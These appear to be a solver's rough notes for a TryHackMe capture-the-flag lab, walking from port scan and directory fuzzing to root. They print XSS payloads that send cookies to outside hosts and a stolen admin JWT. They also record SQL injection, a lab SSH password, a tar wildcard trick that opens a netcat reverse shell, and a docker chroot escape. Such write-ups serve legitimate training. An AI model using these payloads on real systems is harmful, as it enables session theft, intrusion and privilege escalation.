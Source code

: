 start with nmap

80
22
32768

***

http 80

fuzz :

```
admin                   [Status: 403, Size: 392, Words: 75, Lines: 22]
Admin                   [Status: 403, Size: 392, Words: 75, Lines: 22]
ADMIN                   [Status: 403, Size: 392, Words: 75, Lines: 22]
images                  [Status: 301, Size: 179, Words: 7, Lines: 11]
login                   [Status: 200, Size: 857, Words: 200, Lines: 36]
Login                   [Status: 200, Size: 857, Words: 200, Lines: 36]
messages                [Status: 302, Size: 28, Words: 4, Lines: 1]
new                     [Status: 302, Size: 28, Words: 4, Lines: 1]
robots.txt              [Status: 200, Size: 31, Words: 3, Lines: 3]
signup                  [Status: 200, Size: 667, Words: 159, Lines: 31]
stylesheets             [Status: 301, Size: 189, Words: 7, Lines: 11]

```

/admin can't access by us.

test cookies for sql injection

we can send message to admin.

create two account. try to send message from 1 to 2 and try to get xss. if success try to get admin cookies.


<script type=“text/javascript”>document.location=“http://10.17.9.112:5000/?c=“+document.cookie;</script>


<script>document.location="http://8fd4fb80f503625de29ffe2a8d3599e6.log.tryhackme.tech/?c="+document.cookie;</script>
***

play jwt token

***

<script>var i=new Image;i.src="http://b43f563553f3443c7e830d9958991858.log.tryhackme.tech/?"+document.cookie;</script>

using this got admin cokies :

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2NDE0NTQ1MzB9.V1dio8OwHQub3viPFqaPaKzc_OY6HKXPFqQgQ6OSD4o

```

login into admin account using cookies.

***

found slq injection at `http://10.10.254.160/admin?user=2%27`

sql injection : found some hashesh but in message table found creds.

user : jake
michael
system

ssh pass : @b_ENXkGYUCAv3zJ

jake : @b_ENXkGYUCAv3zJ


***

privs 

jake can run sudo as michael :

`(michael) NOPASSWD: /opt/backups/backup.sh`


```
echo "mkfifo /tmp/lhennp; nc 10.11.57.82 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh

echo "" > "--checkpoint-action=exec=sh shell.sh"

echo "" > --checkpoint=1

```


***

startup.sh found in /home/marketplace

```
cd /home/marketplace/the-marketplace; docker-compose up -d; done


```

docker is used. tried to break out basic retriction using 

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh` --> from gtfobins

got root shell.